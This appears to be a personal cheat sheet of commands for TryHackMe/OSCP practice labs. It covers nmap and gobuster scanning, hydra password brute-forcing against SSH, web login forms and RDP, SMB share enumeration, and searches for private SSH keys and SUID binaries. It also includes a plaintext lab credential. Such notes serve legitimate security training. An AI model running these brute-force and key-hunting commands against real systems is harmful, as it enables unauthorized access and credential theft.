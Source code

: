 Nmap scan
nmap -sV -sC -o nmap 10.10.85.80

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/




Gobuster 
gobuster dir -e -u 10.10.243.102 -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u 10.10.81.56 -w directory-list-2.3-medium.txt

wildcard related error
gobuster dir -e -u http://10.10.20.239/api/site-log.php -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt -s "204,301,302,307,401,403"


Hydra Brute force
https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
##SSH
kali@kali:~/oscptraining/tryhackme/brooklyn99$ hydra 10.10.216.12 ssh -l jake -P /usr/share/wordlists/rockyou.txt
##HTTP-POST
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
go to inspect element > network > edit and send the post request, copy referer:request body:failed message

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.246.210 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kcSMO%2FXF1GCTeqt5uRKPoYMbob7ILPmcJ8MRMGNpv2FneCHIfEXPYOSXqtxv7DNoE8I3ocTwXLS9nE%2BFsrLJiHyETHd061sGnCLUvKIZ98Tw51yIvJPBPwCnvZkSPBN1IGUjaSXna2xuK3zLhKzuJMYEMGp%2BJaP2%2FnW3KLtiHdSkJNaf&__EVENTVALIDATION=An1jltDUr%2FrJuqK%2FrWVjD8jVjSf5VMWKvH%2BRo5qQE9Qj4eGYCBTjNSWsFE5%2FEkHkpfIodOJNXbmfoUTYDVGixWMGR8Uh4t4o5X9Rt16ieHoB4SXqj2wNQW3KckOfeclwpBQJbmdFBCPS%2FdzwfeBzvm1jPbMdBiH2IFcI0iE0FX3uIkeq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

Brute force against a protocol of your choice
hydra -P <wordlist> -v <ip> <protocol>

Attack a Windows Remote Desktop with a password list.
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>

Number of parallel connections per target  -t 16
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.30.60 ssh




SMB Enum (port 445, 139)
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.117.251
smbclient ///10.10.117.251/Users

smbclient //10.10.223.79/anonymous -u anonymous 

Our vulnerable machine in this example has a directory called backups containing an SSH key that we can use for authentication. This was found via: find / -name id_rsa 2> /dev/null....Let's break this down:

We're using find to search the volume, by specifying the root (/) to search for files named "id_rsa" which is the name for private SSH keys, and then using 2> /dev/null to only show matches to us.


search the machine for executables with the SUID permission set: find / -perm -u=s -type f 2>/dev/


for remote desktop
xfreerdp /u:littlehelper /p:iLove5now! /v:10.10.247.111

PowerShell Invoke-WebRequest








